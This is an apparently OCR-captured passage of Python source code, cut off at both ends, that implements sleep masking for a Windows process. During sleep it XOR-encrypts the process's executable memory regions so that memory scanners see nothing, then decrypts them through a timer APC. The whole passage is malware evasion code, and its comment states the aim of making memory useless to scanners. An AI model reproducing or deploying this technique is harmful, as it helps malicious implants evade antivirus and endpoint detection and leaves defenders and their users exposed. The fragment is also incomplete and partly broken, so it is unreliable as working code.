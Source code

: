 ```python
            # Check if executable
            if mbi.Protect & 0x20:  # PAGE_EXECUTE_READ
                self.regions_to_encrypt.append({
                    'address': mbi.BaseAddress,
                    'size': mbi.RegionSize,
                    'protect': mbi.Protect
                })
            
            address = mbi.BaseAddress + mbi.RegionSize
    
    def masked_sleep(self, milliseconds: int):
        """
        Sleep with full memory encryption
        
        Process:
        1. Encrypt all executable regions
        2. Set timer to wake and decrypt
        3. Enter sleep (image encrypted)
        4. Timer fires, decrypts, resumes
        """
        
        # 1. Encrypt all regions
        for region in self.regions_to_encrypt:
            self._encrypt_region(region)
        
        # 2. Create timer APC to decrypt
        timer_callback = ctypes.WINFUNCTYPE(None)(self._decrypt_all_regions)
        timer_handle = self._create_timer_apc(milliseconds, timer_callback)
        
        # 3. Sleep (memory encrypted, useless to scanners)
        self.ntdll.NtDelayExecution(
            1,  # Alertable (can receive APC)
            ctypes.byref(LARGE_INTEGER(milliseconds * -10000))
        )
        
        # 4. APC fired, memory decrypted, execution resumes
    
    def _encrypt_region(self, region: Dict):
        """Encrypt memory region"""
        # Change to RW
        old_protect = wintypes.DWORD()
        self.kernel32.VirtualProtect(
            region['address'],
            region['size'],
            0x04,  # PAGE_READWRITE
            ctypes.byref(old_protect)
        )
        
        # Encrypt with XOR (fast)
        buffer = (ctypes.c_ubyte * region['size']).from_address(region['address'])
        for i in range(region['size']):
            buffer[i] ^= self.mask_key[i % 32]
        
        # Keep as RW (encrypted code can't execute)
    
    def _decrypt_all_regions(self):
        """Decrypt all regions (called by timer)"""
        for region in self.regions_to_encrypt:
            # Decrypt
            buffer = (ctypes.c_ubyte * region['size']).from_address(region['address'])
            for i in range(region['size']):
                buffer[i] ^= self.mask_key[i % 32]
            
```